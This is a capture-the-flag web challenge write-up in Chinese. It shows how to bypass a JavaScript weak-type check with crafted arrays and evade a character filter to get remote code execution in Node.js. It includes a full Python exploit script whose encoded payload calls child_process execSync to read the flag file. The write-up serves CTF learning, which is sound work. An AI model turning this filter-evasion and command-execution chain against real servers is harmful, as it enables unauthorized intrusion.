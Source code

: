 tags:: CTFWEB/JS/WAF绕过, CTFWEB/JS/弱类型, CTFWEB/RCE

- # 基本思路
	- 绕过弱类型验证和waf实现rce
- # 绕过弱类型验证
	- `first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0])`
	- 只要`first=["a","a,a"],second=["a,a","a"]`，这两个数组转化成字符串的时候就都会化成`a,a,a`，绕过验证
- # 绕过waf
	- ![Screenshot_2023-02-07_17-26-00.png](../assets/Screenshot_2023-02-07_17-26-00_1675761971770_0.png)
	- 提供了等于号，可以实现变量赋值
	- `Math`和数字可以通过waf，变量名可以考虑使用这二者
	- `Math`后面可以加`.`，所有以`Math`结尾的变量都可以利用`.`获取属性
	- 综上，变量名可以为`Math1Math`等，可以通过`.`获取任意变量
- # waf限制下的rce
	- `Math.toString.constructor`的作用类似于eval, 传入一个字符串，其会使用这个字符串生成一个匿名函数
	- `Math.toString().constructor.fromCharCode`，将ascii码转换成字符
	- 我们只需要依次执行以下语句即可利用这两个函数实现任意JS代码RCE
		- ```python
		  # Math.toString().constructor.fromCharCode
		  post_str("Math1Math=Math.toString()")
		  post_str("Math2Math=Math1Math.constructor")
		  post_str("Math3Math=Math2Math.fromCharCode")
		  # Math.toString.constructor
		  post_str("Math4Math=Math.toString")
		  post_str("Math5Math=Math4Math.constructor")
		  ```
	- 执行结果在cookie中
- # Payload
	- ```python
	  url = "http://d0f529af-0b53-4e58-9362-4cc67c5159cd.node4.buuoj.cn:81/"
	  session = requests.session()
	  
	  def post_str(s):
	      r = session.post(url, json = {
	          "e":s,
	          "first":["a","a,a"],
	          "second":["a,a","a"]}
	      )
	      return r
	  
	  post_str("Math1Math=Math.toString()")
	  post_str("Math2Math=Math1Math.constructor")
	  post_str("Math3Math=Math2Math.fromCharCode")
	  
	  post_str("Math4Math=Math.toString")
	  post_str("Math5Math=Math4Math.constructor")
	  
	  def encode_payload(s):
	      return "Math5Math({})()".format(
	          "+".join(f"Math3Math({ord(c)})" for c in s)
	      )
	  
	  payload_raw = "return global.process.mainModule.constructor._load('child_process').execSync('cat /flag').toString()"
	  post_str(encode_payload(payload_raw))
	  cookie_session = session.cookies["PHPSESSION"]
	  cookie_session_json = json.loads(enc_dec.base64_decode(cookie_session))
	  print(cookie_session_json["results"][0])
	  ```